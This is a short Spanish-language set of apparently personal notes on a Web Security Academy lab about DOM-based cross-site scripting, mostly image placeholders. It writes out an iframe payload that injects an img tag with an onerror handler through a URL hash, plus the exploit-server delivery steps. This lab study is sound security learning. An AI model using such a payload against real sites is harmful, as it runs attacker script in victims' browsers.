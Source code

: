 ![[Pasted image 20220815193732.png]]

la siguiente funcion empotrada hace vulnerable la página:

![[Pasted image 20220815193838.png]]

iframe src="https://0a3200de0329d7a9d0e909940031008f.web-security-academy.net/#" onload="this.src+=' img src=x onerror=print() '"/iframe

![[Pasted image 20220815194320.png]]

La secuencia es: store -> view exploit -> deliver to victim


![[Pasted image 20220815194240.png]]